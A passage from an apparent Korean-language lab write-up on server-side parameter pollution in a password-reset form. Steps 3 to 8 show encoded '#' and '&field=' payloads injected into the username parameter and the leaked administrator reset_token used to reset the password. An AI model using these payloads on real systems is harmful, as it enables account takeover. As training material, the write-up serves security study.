 3. 비밀번호 찾기에서 url파라미터에 \# 또는 %23을 추가 해 본다.
	Field 라는 파라미터가 서버에서 측에서 받는다는 것을 알 수 있다. 
```
csrf=72PLBKviguGaCdE85OIhKBripc7mbreJ&username=administrator%23

// 결과 값
{"error": "Field not specified."}
```

4.  파라미터로 field를 던져본다.
	field값을 인식함을 알 수 있다.
```
csrf=72PLBKviguGaCdE85OIhKBripc7mbreJ&username=administrator%26field=x%23

{"type":"ClientError","code":400,"error":"Invalid field."}
```

5. field값 에 intruder로 내장된**Server-side variable names** 페이로드 리스트를 대입 해 본다.
	결과는 email 이라는 값이다. field 매개변수 값에 email사용가능하다.

6. javascript 파일들을 검토한다. `/static/js/forgotPassword.js`  파일을 확인 해보자
```
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

- 비밀번호 재설정 엔드포인트에서 `reset_token`이라는 값이 있다. 

7. field에 reset_token이라는 값을 대입해 보자.
	reset_token을 획득했다.
```
csrf=72PLBKviguGaCdE85OIhKBripc7mbreJ&username=administrator%26field=reset_token%23

// 결과
{"result":"86nsvqjrup4ylujnvbjt7mzh5lzzcz7g","type":"reset_token"}
```

8. 앞서 js분석으로 알아낸 비밀번호 재설정 엔드포인트를 활용한다. 
	비밀번호 재설정 성공
```
https://mailnurl/forgot-password?reset_token=86nsvqjrup4ylujnvbjt7mzh5lzzcz7g

//결과
비밀번호재설정 화면 
```
